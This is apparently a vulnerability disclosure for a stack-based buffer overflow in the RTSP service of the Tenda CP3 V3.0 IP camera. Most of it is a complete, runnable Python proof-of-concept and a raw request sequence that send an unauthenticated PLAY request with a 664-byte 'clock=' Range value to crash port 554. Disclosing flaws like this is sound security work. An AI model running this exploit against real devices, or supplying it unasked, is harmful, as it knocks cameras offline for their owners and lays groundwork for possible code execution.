



# Information

**Vendor of the products:** Tenda

**Vendor's website:** https://www.tenda.com.cn/

**Reported by:** YanKang

**Affected products:** CP3 V3.0

**Affected firmware version:** V31.1.9.91

**Firmware download address:** https://www.tenda.com.cn/material/show/675687993704517

# Overview

A stack-based buffer overflow vulnerability exists in the RTSP service of the Tenda CP3 V3.0 IP camera (firmware V31.1.9.91). When processing a `PLAY` request, the device fails to perform adequate length validation on the value of the `clock=` prefix within the `Range` header field. After a legitimate RTSP session handshake (OPTIONS → DESCRIBE → SETUP × 2) is completed, sending a `PLAY` request with a `Range` header containing the `clock=` prefix followed by an excessively long string causes an immediate stack-based buffer overflow in the RTSP service process.

Successful exploitation causes the RTSP service to crash immediately, with TCP port 554 becoming unreachable. All clients on the same local network — including the official application and third-party players such as VLC — are unable to connect to the device, resulting in a denial-of-service (DoS) condition. This vulnerability requires no authentication to exploit, and carries a potential risk of remote code execution (RCE).

# POC

After running the PoC, the script completes a legitimate RTSP session handshake with the target camera (OPTIONS → DESCRIBE → SETUP × 2) and then sends a malformed `PLAY` request with a `Range` header containing the `clock=` prefix followed by a 664-byte overlong string. The RTSP service crashes immediately, rendering TCP port 554 unreachable and causing a denial-of-service condition. No authentication is required to trigger this vulnerability.

```python
#!/usr/bin/env python3
"""
PoC for Stack-Based Buffer Overflow in Tenda CP3 V3.0 RTSP Service
(Firmware V31.1.9.91)

This proof-of-concept reproduces a stack-based buffer overflow vulnerability
by completing a legitimate RTSP session handshake and then sending a malformed
PLAY request with an excessively long clock= value in the Range header field.
The RTSP service crashes immediately upon processing the malformed field,
rendering TCP port 554 unreachable.

Tested device:
  - Vendor  : Tenda
  - Model   : CP3 V3.0
  - Firmware: V31.1.9.91

Impact:
  - RTSP service crashes immediately (stack-based buffer overflow)
  - TCP port 554 becomes unreachable (ConnectionRefusedError)
  - All clients on the LAN lose connectivity to the device (Denial of Service)
  - No authentication required to trigger

This code is for authorized security research purposes only.
"""

import socket
import time


CAMERA_IP = "TARGET_IP"    # Replace with target device IP
RTSP_PORT = 554
RTSP_BASE = f"rtsp://{CAMERA_IP}"
RTSP_URI  = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/tenda"


def recv_rtsp_response(sock, timeout=10):
    """Receive RTSP response from socket, waiting up to `timeout` seconds."""
    response_data = b""
    sock.settimeout(timeout)
    try:
        while True:
            chunk = sock.recv(4096)
            if not chunk:
                break
            response_data += chunk
            if b"RTSP/1.0" in response_data:
                break
    except socket.timeout:
        pass
    return response_data


def check_service_alive(ip, port, label=""):
    """Send an OPTIONS request on a fresh connection to verify service availability."""
    try:
        check_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        check_sock.settimeout(5)
        check_sock.connect((ip, port))
        req = (
            f"OPTIONS rtsp://{ip}:{port}/tenda RTSP/1.0\r\n"
            f"CSeq: 1\r\n"
            f"User-Agent: PoC-Checker/1.0\r\n\r\n"
        )
        check_sock.send(req.encode())
        resp = recv_rtsp_response(check_sock, timeout=5)
        check_sock.close()
        if b"200" in resp:
            print(f"[Service Check][{label}] Service is alive.")
            return True
        else:
            print(f"[Service Check][{label}] Unexpected response — service may be abnormal.")
            return False
    except ConnectionRefusedError:
        print(f"[Service Check][{label}] Connection refused — RTSP service is unreachable.")
        return False
    except socket.timeout:
        print(f"[Service Check][{label}] Timed out — RTSP service is unreachable.")
        return False
    except Exception as e:
        print(f"[Service Check][{label}] Check failed: {e}")
        return False


# ── Main PoC ──────────────────────────────────────────────────────────────────

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((CAMERA_IP, RTSP_PORT))

# 1. OPTIONS
options_req = (
    f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
sock.send(options_req.encode())
time.sleep(1)
print("OPTIONS Response:\n", recv_rtsp_response(sock).decode(errors="ignore"))

# 2. DESCRIBE (no authentication required)
describe_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
sock.send(describe_req.encode())
time.sleep(1)
print("DESCRIBE Response:\n", recv_rtsp_response(sock).decode(errors="ignore"))

# 3. SETUP track1
setup1_req = (
    f"SETUP {RTSP_BASE}/ch=1?subtype=0/trackID=1 RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
sock.send(setup1_req.encode())
time.sleep(1)
setup1_res = recv_rtsp_response(sock).decode(errors="ignore")
print("SETUP_1 Response:\n", setup1_res)

# Extract Session ID from SETUP track1 response
session_id = None
for line in setup1_res.split("\r\n"):
    if line.startswith("Session:"):
        session_id = line.split(":")[1].split(";")[0].strip()
        break
if not session_id:
    print("[!] Failed to extract Session ID from SETUP response.")
    sock.close()
    exit(1)
print(f"[*] Session ID: {session_id}")

# 4. SETUP track2
setup2_req = (
    f"SETUP {RTSP_BASE}/ch=1?subtype=0/trackID=2 RTSP/1.0\r\n"
    f"CSeq: 5\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(setup2_req.encode())
time.sleep(1)
print("SETUP_2 Response:\n", recv_rtsp_response(sock).decode(errors="ignore"))

# 5. PLAY with malformed Range: clock= (664-byte overlong payload)
# A payload of 664 bytes following the clock= prefix is sufficient to trigger
# the stack-based buffer overflow in the RTSP service process.
overflow_payload = "A" * 664
play_req = (
    f"PLAY {RTSP_BASE}/ch=1?subtype=0/ RTSP/1.0\r\n"
    f"CSeq: 6\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n"
    f"Range: clock={overflow_payload}\r\n\r\n"
)
sock.send(play_req.encode())
time.sleep(2)
play_res = recv_rtsp_response(sock).decode(errors="ignore")
if play_res:
    print("PLAY Response (unexpected):\n", play_res)
else:
    print("[*] No response to PLAY — RTSP service likely crashed.")

# 6. TEARDOWN
teardown_req = (
    f"TEARDOWN {RTSP_BASE}/ch=1?subtype=0/ RTSP/1.0\r\n"
    f"CSeq: 7\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(teardown_req.encode())
time.sleep(0.5)
sock.close()

# Verify service availability after exploitation
time.sleep(2)
check_service_alive(CAMERA_IP, RTSP_PORT, label="after PLAY")
```


Below is an example of the complete RTSP request sequence from our verification process.

```
OPTIONS rtsp://{IP}:554/tenda RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://{IP}:554/tenda RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://{IP}/ch=1?subtype=0/trackID=1 RTSP/1.0
CSeq: 4
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://{IP}/ch=1?subtype=0/trackID=2 RTSP/1.0
CSeq: 5
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: {SESSION_ID}

PLAY rtsp://{IP}/ch=1?subtype=0/ RTSP/1.0
CSeq: 6
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: {SESSION_ID}
Range: clock=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
← clock= prefix followed by 664-byte overlong string, triggering stack-based buffer overflow

TEARDOWN rtsp://{IP}/ch=1?subtype=0/ RTSP/1.0
CSeq: 7
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: {SESSION_ID}
```

**Notes:**

- Replace `{IP}` with the target device IP address
- Replace `{SESSION_ID}` with the session ID obtained from the SETUP response
- The overflow is triggered specifically by the `clock=` prefix; overlong input under the `npt=` prefix or with no prefix does not trigger the same behavior, confirming `clock=` is an independent vulnerable code path
- A payload of 664 bytes following the `clock=` prefix is sufficient to trigger the crash
- No authentication is required to trigger this vulnerability
- The complete RTSP session handshake (OPTIONS → DESCRIBE → SETUP × 2) must be completed before sending the malformed `PLAY` request

# Attack Demo

The vulnerability can be triggered after completing a legitimate RTSP session handshake with the target device. An unauthenticated attacker sends a `PLAY` request with a `Range` header containing the `clock=` prefix followed by an excessively long string (664 bytes or more). The device's RTSP service fails to validate the length of this field and performs an unbounded copy operation onto the stack, causing an immediate stack-based buffer overflow. The RTSP service process crashes, TCP port 554 stops listening, and all clients on the local network lose connectivity to the device.









As the target device firmware is closed-source and does not expose debugging symbols or interfaces, source-level crash analysis is not available. To demonstrate the reproducibility and real-world impact of the vulnerability, a complete demonstration video is provided to show how the malformed `PLAY` request leads to a denial-of-service condition.

A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/Tenda_CP3V3.0_2th

# Supplement

This vulnerability allows an unauthenticated attacker to trigger a denial-of-service (DoS) condition on the affected device. By completing a standard RTSP session handshake and then sending a `PLAY` request with an excessively long `clock=` value in the `Range` header field, a stack-based buffer overflow is triggered in the RTSP service process. The service crashes immediately, rendering TCP port 554 unreachable and disconnecting all clients on the local network.

The absence of any authentication requirement significantly lowers the practical barrier to exploitation. Furthermore, given the nature of a stack-based buffer overflow, the vulnerability carries a potential risk of remote code execution (RCE) beyond the demonstrated denial-of-service impact.

The vulnerability is classified under **CWE-121** (Stack-based Buffer Overflow).